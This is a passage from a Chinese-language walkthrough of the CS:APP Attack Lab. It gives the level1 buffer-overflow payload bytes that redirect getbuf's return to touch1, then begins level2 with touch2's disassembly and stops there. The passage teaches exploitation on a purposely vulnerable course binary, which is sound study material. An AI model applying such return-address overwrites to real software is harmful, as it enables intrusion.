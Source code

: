 注意 **0x00401976** 这个地址，其实这个地址就是getbuf的返回地址，从test函数的汇编代码也可以看出来。

那么现在只需要将 **0x00401976** 变成 **0x004017c0** 就可以了。

新建一个文件写入下面这些数据：

```
//每行20字节，最后的004017c0是touch1的地址
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
c0 17 40 00
```

![4](/static/csapp_lab3_4.png)

## level2

touch2在touch1的基础上加上了一个参数验证的步骤，因此不仅仅要返回到touch2函数，还要让touch2的参数设置成一个特定的cookie，cookie值已经有了，要考虑的是如何将touch2的形参设成cookie。

下面的是touch2的汇编代码：

```
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```
